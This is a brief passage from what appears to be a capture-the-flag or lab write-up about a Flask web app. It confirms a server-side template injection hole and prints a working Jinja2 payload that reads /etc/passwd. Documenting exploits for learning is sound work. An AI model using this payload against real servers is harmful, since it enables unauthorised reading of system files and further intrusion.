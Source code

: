 ![Untitled](images/Untitled%2042.png)

Let’s remember that this site uses flask… Maybe it is vulnerable to STTI?

![Untitled](images/Untitled%2043.png)

Yeah! It is. Let’s try to read the `/ect/passwd` file using this SSTI payload `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`
